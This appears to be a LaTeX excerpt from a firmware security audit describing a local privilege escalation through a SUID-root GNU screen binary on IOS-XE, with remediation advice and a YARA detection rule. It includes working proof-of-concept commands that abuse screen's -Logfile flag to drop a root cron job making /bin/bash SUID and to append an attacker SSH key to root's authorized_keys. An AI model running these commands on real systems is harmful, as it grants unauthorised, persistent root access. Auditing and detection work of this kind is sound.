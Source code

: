 \documentclass[11pt,a4paper]{article}
\begin{document}
\subsubsection{Technical Evidence}

The \texttt{-Logfile} flag is confirmed present in the binary's help strings.

\begin{pocbox}{Confirmed via Static Analysis of IOS-XE 17.18.04 bigbang/usr/bin/screen}
\begin{lstlisting}[style=bash]
# screen 4.9.1, -rwsr-sr-x root/root, 452656 bytes
# Binary strings confirm: "-Logfile file  Set logfile name."
#                         "Must run suid root for multiuser support."

# LPE via logfile write-as-root:
screen -D -m -L -Logfile /etc/cron.d/rootshell /bin/sh -c \
  'echo "* * * * * root chmod +s /bin/bash" >&3'
# => cron runs "chmod +s /bin/bash" as root on next minute tick

# Alternative: append SSH key as root
screen -D -m -L -Logfile /root/.ssh/authorized_keys \
  /bin/sh -c 'echo "ssh-rsa AAAAB... attacker" >&3'
\end{lstlisting}
\end{pocbox}

\subsubsection{Impact}

\begin{itemize}[nosep]
  \item Any user with shell access can write to any root-owned path via
    screen's \texttt{-Logfile} flag, including cron directories, SSH keys,
    and library preload files.
  \item Screen 4.9.1 includes no CVE for this behavior; it is a design
    feature that is dangerous only when the SUID bit is present.
  \item The SUID bit should be removed (\texttt{chmod -s /usr/bin/screen})
    or screen should be excluded from production firmware entirely.
\end{itemize}

\subsubsection{Detection: YARA Rule}

\begin{lstlisting}[style=yara]
rule CAT9K_F15_Screen_SUID_LPE {
    meta:
        description = "screen 4.9.1 SUID root logfile arbitrary write LPE"
        id = "CAT9K-F15"
        severity = "High"
    strings:
        $ver     = "screen-4.9.1" ascii
        $logfile = "-Logfile file" ascii
        $suid    = "Must run suid root for multiuser support." ascii
    condition:
        all of them
}
\end{lstlisting}
\end{document}

